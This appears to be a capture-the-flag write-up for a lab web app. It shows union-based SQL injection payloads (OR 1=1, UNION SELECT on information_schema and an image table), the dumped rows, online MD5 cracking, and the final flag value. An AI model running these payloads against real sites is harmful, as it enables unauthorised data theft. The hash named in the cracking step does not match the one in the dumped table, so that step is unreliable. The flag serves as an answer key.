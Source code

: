 # UNION BASED SQL INJECTION

## Flag
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Discovery
go to
```
 http://{IP_ADDRESS}/?page=searchimg
```
tryed a simple sql statement 
```
1 OR 1=1 
The SQL above is valid and will return ALL rows from the "users" table, since OR 1=1 is always TRUE.
```

Retrieve columns names with the table they belong to:
```
1 UNION SELECT table_name,column_name FROM information_schema.COLUMNS 
```
> id, url, title, comment

the command below will retrieve all image's data
```
1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
```

the result shows this interesting image with title (Hack me ?):

|   id    |               url                   |   title   |                                                      comment      	                                                 |
| ------- | ----------------------------------- | --------- | ---------------------------------------------------------------------------------------------------------------------- |
|   5     | borntosec.ddns.net/images.png       | Hack me ? |  If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |

following the instruction :
* analyzing the password using [cipher identifier](https://www.dcode.fr/cipher-identifier)
* decrypt the password using [md5decrypt - md5](https://md5decrypt.net/en/)
* 5ff9d0165b4f92b14994e5c685cdce28 gives albatroz 
* lower all the char, encrypt it using Sh256
* flag is f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)

## Ressources
- [Owasp SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)